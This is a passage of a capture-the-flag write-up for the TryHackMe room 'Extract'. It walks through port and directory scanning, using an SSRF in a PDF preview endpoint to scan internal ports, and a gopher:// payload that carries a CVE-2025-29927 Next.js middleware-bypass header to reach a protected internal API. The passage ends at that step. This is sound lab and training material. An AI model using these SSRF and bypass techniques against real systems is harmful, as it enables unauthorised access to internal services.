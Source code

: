 # 🕵️ Extract

* Solving [EXTRACT](https://tryhackme.com/room/extract)

## Discovery

1. First of all, Lets Find Open Ports: `nmap -p- -sV $TARGET` 🎯
```
Nmap scan report for $TARGET
Host is up (0.00024s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:79:29:14:25:7F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. By checking Web Port(**80**) with `http://$TARGET`, It seems PDFs  are loaded From: `http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fpdf%2Fdummy.pdf`. Possibly the website is vulnerable to **Path Traversal** or **SSRF** 🔥

![Website View](images/02-web.png)
![Burpsuite View](images/02-ssrf.png)

3. I tested all [PHP Wrappers](https://www.php.net/manual/en/wrappers.php) but nothing found! so I decided to dig in deeper! 😅

4. Next, I tried Finding Hidden Directories Using [RAFT Medium Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-medium-directories.txt) 🔒
```sh
ffuf -w raft-medium-directories.txt -u "http://$TARGET/FUZZ/"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/FUZZ/
 :: Wordlist         : FUZZ: raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

pdf                     [Status: 200, Size: 0, Words: 1, Lines: 1]
javascript              [Status: 403, Size: 277, Words: 20, Lines: 10]
icons                   [Status: 403, Size: 277, Words: 20, Lines: 10]
management              [Status: 403, Size: 14, Words: 2, Lines: 1]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

5. I could Find **2** valuable Directories, but we don't have direct access to them. 😵
```
management
server-status
```

6. But, PDF Preview link may be able to load other URLs for us! 👍🏻
```
management:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fmanagement%2F

server-status:
http://$TARGET/preview.php?url=http%3A%2F%2Fcvssm1%2Fserver-status%2F
```

![Management Page](images/06-management.png)

8. I tried finding more directories with [RAFT Large Directory List](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt), But nothing fancy showed up! Only the `localhost` keyword was blocked, so I didn't fall into that **Rabbit Hole** anymore! 🐰

9. A new Idea! Lets Brute-Force **Ports** on host, **Internally**! 🤌
```sh
seq 1 65535 > ports.txt
ffuf -w ports.txt -u "http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ" -fw 1

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://$TARGET/preview.php?url=http%3A%2F%2F127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: ports.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 1
________________________________________________

80                      [Status: 200, Size: 1735, Words: 304, Lines: 65]
10000                   [Status: 200, Size: 6131, Words: 104, Lines: 1]
```
**Attention**: `-fl 1` didn't work, because response on port `10000` has only `1` line of code.

10. Now, Lets Check Port `10000` on Browser: `http://$TARGET/preview.php?url=http://127.0.0.1:10000` 👀

![API Internal](images/10-api.png)

11. There is a Hidden API Here, But Accessing `http://127.0.0.1:10000/customapi` needs **Authentication** as the Image above says it loud and clear! 👂

## Flag 1 ⛳️

12. By Checking HTML, It seems the website is based on `Next.JS`. First vulnerability to check is [CVE-2025-29927](https://projectdiscovery.io/blog/nextjs-middleware-authorization-bypass). We can this security issue by sending request below: 🧨
```
GET /customapi HTTP/1.1
Host:127.0.0.1:10000
X-Middleware-Subrequest: middleware
```

13. Everything seems in order until you realize, There is **NO** way to send **HTTP Headers** in ssrf on this website (YET)! 😱

14. Don't worry, By diving in OLD Internet Protocols and PHP Wrappers. I could find `gopher://` which provides the capability of sending requests over tcp, specially `HTTP`. For Learning More About `gopher://`, check links in **References** section. 🔎

15. Lets use [CyberChef](https://gchq.github.io/CyberChef/) for creating `gopher` payloads by keeping conditions below: ✅
        - ☑️ Double Encode Payloads
        - ☑️ Convert `&` into `%26`
        - ☑️ Line Ending should be **CRLF**

        ```
        gopher://127.0.0.1:10000/_GET /customapi HTTP/1.1
        Host:127.0.0.1:10000
        X-Middleware-Subrequest: middleware

        ```

        ![gopher ssrf](images/15-next-js-exploit.png)

